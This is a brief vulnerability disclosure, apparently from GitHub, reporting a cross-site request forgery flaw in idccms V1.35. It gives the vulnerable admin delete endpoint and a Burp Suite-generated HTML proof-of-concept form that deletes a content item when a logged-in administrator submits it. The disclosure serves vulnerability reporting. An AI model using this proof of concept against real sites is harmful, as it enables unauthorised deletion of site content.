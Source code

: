 
target:http://idccms.com/
version: V1.35

idccms V1.35 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://127.0.0.1:80/admin/infoWeb_deal.php?mudi=del&dataType=newsWeb&dataTypeCN=%E5%8D%95%E7%AF%87%E9%A1%B5&theme=cs1&dataID=40

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:80/admin/infoWeb_deal.php?mudi=del&dataType=newsWeb&dataTypeCN=%E5%8D%95%E7%AF%87%E9%A1%B5&theme=cs1&dataID=40" method="POST">
      
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
